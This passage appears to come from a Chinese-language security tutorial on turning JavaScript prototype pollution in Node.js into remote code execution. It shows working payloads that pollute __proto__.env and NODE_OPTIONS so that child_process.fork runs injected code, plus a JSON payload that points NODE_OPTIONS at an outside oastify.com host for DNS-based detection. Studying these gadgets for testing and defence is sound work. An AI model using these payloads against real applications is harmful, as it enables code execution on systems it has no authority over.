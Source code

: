 ```javascript
const value = env[key];
if (value !== undefined) {
ArrayPrototypePush(envPairs, `${key}=${value}`); // <-- Pollution
}
}
```

### **污染 `__proto__`**

{% hint style="warning" %}
请注意，由于`node`的`child_process`库中的`normalizeSpawnArguments`函数的工作方式，当调用某些内容以为进程设置新的环境变量时，你只需要**污染任何内容**。\
例如，如果你执行`__proto__.avar="valuevar"`，进程将被生成一个名为`avar`，值为`valuevar`的变量。

然而，为了使**环境变量成为第一个变量**，你需要**污染**`.env`属性，并且（仅在某些方法中）该变量将成为**第一个变量**（从而允许攻击）。

这就是为什么在以下攻击中\*\*`NODE_OPTIONS`\*\*不在`.env`中的原因。
{% endhint %}

{% code overflow="wrap" %}
```javascript
const { execSync, fork } = require('child_process');

// Manual Pollution
b = {}
b.__proto__.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/pp2rce').toString())//"}
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ"

// Trigger gadget
var proc = fork('./a_file.js');
// This should create the file /tmp/pp2rec


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce\\\").toString())//"}}}')

clone(USERINPUT);

var proc = fork('a_file.js');
// This should create the file /tmp/pp2rec
```
{% endcode %}

## DNS 交互

使用以下有效载荷，可以滥用我们之前讨论过的 NODE\_OPTIONS 环境变量，并通过 DNS 交互检测是否起作用：

```json
{
"__proto__": {
"argv0":"node",
"shell":"node",
"NODE_OPTIONS":"--inspect=id.oastify.com"
}
}
```
